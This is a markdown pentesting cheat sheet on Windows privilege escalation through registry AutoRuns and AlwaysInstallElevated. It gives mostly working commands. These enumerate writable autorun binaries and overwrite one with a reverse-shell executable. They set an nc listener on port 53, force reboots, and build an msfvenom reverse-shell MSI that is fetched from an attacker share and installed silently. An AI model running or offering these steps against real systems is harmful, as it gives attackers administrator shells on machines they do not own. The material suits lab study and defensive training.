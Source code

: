 
#windows #registry #privesc 

# AutoRuns

Windows can be configured to run commands at startup, with elevated privileges.
These "AutoRuns" are configured in the Registry.

If you are able to write to an AutoRun executable, and are able to restart the system ( or wait for it to be restarted ) you may be able to escalate privileges. 

HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run : For all users
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run : For user logged in 

## Commands for registry


```cmd
===>  req query <KEY_PATH> /v <name_value> /s /f <pattern>

reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion" /v ProgramFilesDir
reg query "HKLM\SOFTWARE" /f "Windows" /s


===> reg add <KEY_PATH> /v <name_value> /t <data_type> /d <data> /f 

reg add "HKCU\Software\TestKey" /v TestValue /t REG_SZ /d "Ceci est une valeur" /f
reg add "HKLM\Software\TestKey" /v TestDWORD /t REG_DWORD /d 1 /f


===> reg delete <KEY_PATH> /v <name_value> /f

reg delete "HKCU\Software\TestKey" /v TestValue /f
reg delete "HKCU\Software\TestKey" /f


===> reg export <KEY_PATH> <Destination_Path> /y 

reg export "HKLM\SOFTWARE\TestKey" C:\Backup\TestKey.reg /y


===> reg import <.reg Path>

reg import C:\Backup\TestKey.reg



===> reg copy <SOURCE_PATH> <DESTINATION_PATH> /s /f 

reg copy "HKCU\Software\TestKey" "HKLM\Software\BackupKey" /s /f



```

#### Output WinPeas Applicationsinfo

```bash
[+] Autorun Applications(T1010)
    Folder: C:\Program Files\Autorun Program
    File: C:\Program Files\Autorun Program\program.exe
    FilePerms: Everyone [AllAccess]
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run


```



## 1- Enumerate manually Autorun 

```cmd
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

 Result  
```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
Mware User Process    REG_SZ    "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

Checks ACLs of Autorun executables 

```cmd
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

```cmd
icacls "C:\Program Files\Autorun Program\program.exe"
```

```powershell
(Get-Acl "C:\Program Files\Autorun Program\program.exe").Access
```

Here program.exe run as user is logged 

## 2 - Copy payload executable to overwrite the program 

```cmd
copy /Y reverse.exe "C:\Program Files\Autorun Program\Program.exe"
```

## 3 - Set up another listener and restart Windows

```bash
sudo rlwrap nc -lvnp 53 
```

```cmd
shutdown /r /t 0
```

```powershell
Restart-Computer -ComputerName "PcName"
```

```cmd
wmic os where primary=true reboot
```

```cmd
taskkill /IM explorer.exe /F & shutdown /r /t 0
```

On Windows 10 , at least when the system restarts , it seems to run the command with the privileges of the user who was last logged in to avoid this causing issues.
ff
To avoid this causing issues we log out of the user accout and log as the admin account and restart 

# AlwaysInstallElevated

MSI files are packages files used to install appliications.
These files run with the permissions of the user trying to install them.

Windows allows for these installers to be run with elevated ( i.e admin ) privileges.
If this is the case , we can generate a malicious MSI file which contains a reverse shell.

The catch is that two Registry settings must be enabled for this to work.
The "AlwaysInstallElevated" Value must be set to 1 for both local machine:

HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

and the current user :

KHCU\SOFTWARE\Policies\Microsoft\Windows\Installer

If either of these are missing or disabled , the exploit will not work 

## 1 - Enumeration WinPeas

On module windowscreds 

```bash
[+] Checking AlwaysInstallElevated(T1012)

    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!

```

We can see that both InstallElevatedRegistry keys were found to be enabled.

## 2 - Verify manually 

```cmd 
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

==> AlwaysInstallElevated    REG_DWORD    0x1


reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

==> AlwaysInstallElevated    REG_DWORD    0x1

```

## 3 - Exploit

Create a new reverse shell

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=53 -f msi > reverse.msi
```

Copy and execute-it

```cmd
copy \\<MY-IP>\shares\reverse.msi .
msiexec /quiet /qn /i reverse.msi
```

/quiet no interact user without GUI
/qn ( Quiet None ) : Delete all dialog boxes or windows 
/i : install a folder


